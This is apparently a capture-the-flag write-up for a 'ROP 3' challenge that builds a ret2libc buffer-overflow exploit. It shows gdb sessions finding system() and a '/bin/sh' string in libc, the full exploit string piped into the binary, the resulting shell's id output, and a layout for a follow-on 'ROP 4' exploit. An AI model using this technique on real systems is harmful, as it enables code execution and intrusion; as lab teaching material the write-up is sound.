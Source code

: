 This is what we need to accomplish in C which will give us a shell: `system("/bin/sh");`

So we open up the program in gdb, and print out the adresss of system:

```
gdb rop3
     (gdb) break main
     (gdb) run
     (gdb) print system
     $1 = {<text variable, no debug info>} 0xf7e68250 <system>
```
Alright, system is at&nbsp;`0xf7e68250,` which in escaped [little endian](http://en.wikipedia.org/wiki/Endianness) looks like: `\x50\x82\xe6\xf7`.

Now our exploit string looks like this:

```bash
cat <(python -c 'print "\x00"*140+"\x50\x82\xe6\xf7") - | ./rop3
```

We need 2 more things, a fake return&nbsp;address&nbsp;and an&nbsp;argument&nbsp;to pass to `system ("/bin/sh")`.

The fake return address can be anything, so I chose `"\x00"*4` (remember an address is 4 bytes).

To get the `"/bin/sh"` string to pass in, were going to have find it inside of libc (unlike ROP 2, where it was given to you). This is done using gdb find, like so:

```
     (gdb) break main
     (gdb) run
     (gdb) print &system
     $1 = (<text variable, no debug info> *) 0xf7e68250 <system>
     (gdb) find &system,+9999999,"/bin/sh"
     0xf7f86c4c
     warning: Unable to access target memory at 0xf7fd0fd4, halting search.
     1 pattern found.
```
Now we have the string `"/bin/sh"` at&nbsp;`0xf7f86c4c`. Lets finish constructing our exploit string:  
    `(overflow)`  `(<system>)`      `(fake return address)` `("/bin/sh" from libc)`

```
cat <(python -c 'print "\x00"*140+"\x50\x82\xe6\xf7"+    "\x00"*4        +"\x4c\x6c\xf8\xf7"') - | ./rop3
```
Done!

```
    id
     uid=1796(user1792) gid=3009(rop3) groups=1797(user1792),1002(webshell)
```
Now for ROP 4 (by writing this, I was able to then go back and solve it).

Here is my solution:  
`(overflow)` `(<execlp>)`     `(fake return)` `("/bin/sh")(twice)` `($EXPLOIT env variable)`    `(null)`  
